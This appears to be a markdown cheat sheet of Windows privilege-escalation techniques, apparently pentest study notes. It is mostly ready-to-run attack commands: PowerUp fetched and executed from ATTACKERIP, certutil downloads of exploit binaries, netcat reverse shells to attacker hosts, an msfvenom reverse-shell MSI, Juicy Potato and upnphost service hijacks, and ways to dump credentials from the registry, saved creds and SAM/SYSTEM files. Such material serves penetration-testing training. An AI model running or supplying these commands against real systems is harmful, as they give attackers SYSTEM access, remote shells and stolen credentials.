

## Enumeration

### WinPeas

https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/


```
Run all checks while avoiding time-consuming searches:
.\winPEASany.exe quiet cmd fast
winPEAS.exe -a
```
### SeatBelt
```
//system info
SeatBelt.exe system

// user info
SeatBelt.exe user
```

### PowerUP

https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1

```
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://ATTACKERIP/PowerUp.ps1');Invoke-AllChecks"
```

### MSF enumeration

```
//weak services permissions
exploit/windows/local/service_permissions

//Always installed elevated
exploit/windows/local/always_install_elevated

//Unattend
post/windows/gather/enum_unattend`
```
## Installed Applications
Look for not standard application they might have a publice exploit that will allows us to privesc

```
.\seatbelt.exe NonstandardProcesses

.\winPEASany.exe quiet processinfo
```
Once you find an interesting process, try to identify its version then use EXPLOITDB

## Registry exploits

### Autorun

if you are able to write to an AutoRun executable, and are able to restart the system (or wait for it to be restarted) you may be able to escalate privileges.
```
 .\winPEASany.exe quiet applicationsinfo
 
 //or use requery
 reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
 
 //and then use accesschk.exe to verify the permissions on each one:
 
 .\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
 

```
 Exploit:
 ```
 copy "C:\Program Files\Autorun Program\program.exe" C:\Temp
 copy /Y C:\PrivEsc\reverse.exe "C:\Program Files\AutorunProgram\program.exe"
 ```

### AlwaysInstallElevated

```
// Use winPEAS to see if both registry values are set:
.\winPEASany.exe quiet windowscreds

// Alternatively, verify the values manually: (both should return 1)
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

Exploit:
```
// Create a new reverse shell with msfvenom, this time using the msi format, and save it with the .msi extension:

msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.11 LPORT=53 -f msi -o reverse.msi

//Copy the reverse.msi across to the Windows VM, start a listener on Kali, and run the installer to trigger the exploit:

msiexec /quiet /qn /i C:\PrivEsc\reverse.msi
```
## Passwords Hunting

### Registries
Plenty of programs store configuration options in the Windows Registry. It is always worth searching the Registry for passwords.
```
// Use winPEAS to check common password locations:
.\winPEASany.exe quiet filesinfo userinfo

//manual check
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s
```

### Saved Creds
Windows also allows users to save their credentials to the system, and these saved credentials can be used to bypass this requirement
 ```
.\winPEASany.exe quiet cmd windowscreds
// We can verify this manually using the following command:
cmdkey /list

```
Exploit:
```
//We can use the saved credential to run any command as the admin user. Start a listener on Kali and run the reverse shell executable:
runas /savecred /user:admin C:\PrivEsc\reverse.exe
````


### Configuration files

```
//Use winPEAS to search for common files which may contain credentials:

.\winPEASany.exe quiet cmd searchfast filesinfo

//Recursively search for files in the current directory that contain the word “password” and also end in either .xml, .ini, or .txt:
findstr /si password *.xml *.ini *.txt

```
### SAM and SYSTEM files
Windows stores password hashes in the Security Account Manager (SAM).The hashes are encrypted with a key which can be found in a
file named SYSTEM. If you have the ability to read the SAM and SYSTEM files, you can extract the hashes.
```
//try to read these files that contain user password hash
# Usually %SYSTEMROOT% = C:\Windows
C:\Windows\repair\SAM
C:\Windows\System32\config\RegBack\SAM
C:\Windows\System32\config\SAM
C:\Windows\repair\system
C:\Windows\System32\config\SYSTEM
C:\Windows\System32\config\RegBack\system

```
## Scheduled Tasks

Windows can be configured to run tasks at specific times, periodically (e.g. every 5 mins) or when triggered
by some event (e.g. a user logon). Tasks usually run with the privileges of the user who created them, however administrators can configure
tasks to run as other users, including SYSTEM.
```
schtasks /query /fo LIST /v

//powershell
Get-ScheduledTask | where {$_.TaskPath -notlike
"\Microsoft*"} | ft TaskName,TaskPath,State
```

## Exploits

### Juicy potato
https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe

Check if users has the following permissions `SeImpersonate` or `SeAssignPrimaryToken` using the following command:

```
whoami /priv
```


ATTACKER MACHINE

```
nc -lvp 1340
```
VICTIM MACHINE
```
// Download juicy potato binary
certutil -urlcache -split -f http://ATTACKERIP/juicypotato.exe juicypotato.exe

//Download nc binary
certutil -urlcache -split -f http://ATTACKERIP/nc.exe nc.exe 

//Create a bat file that will later execute with juicy potato
echo c:\Users\Public\Documents\nc.exe -e cmd.exe ATTACKERIP 1340 > rev.bat

//call the revshell as system
juicypotato.exe -l 1340 -t * -p c:\Users\Public\Documents\rev.bat

```

### Windows XP SP1 is known to be vulnerable to PE in upnphost. 

```
VICTIM MACHINE
sc config upnphost binpath= "C:\Inetpub\wwwroot\nc.exe YOUR_IP 1234 -e C:\WINDOWS\System32\cmd.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost

// If it fails because of a missing dependency, run the following:
sc config SSDPSRV start= auto
net start SSDPSRV
net start upnphost

ATTACKER MACHINE
nc -lvpn 1234
```

### WINDOWS 10 before build 17134 (tested on 14393)

```
use windows/local/ms16_075_reflection_juicy
```
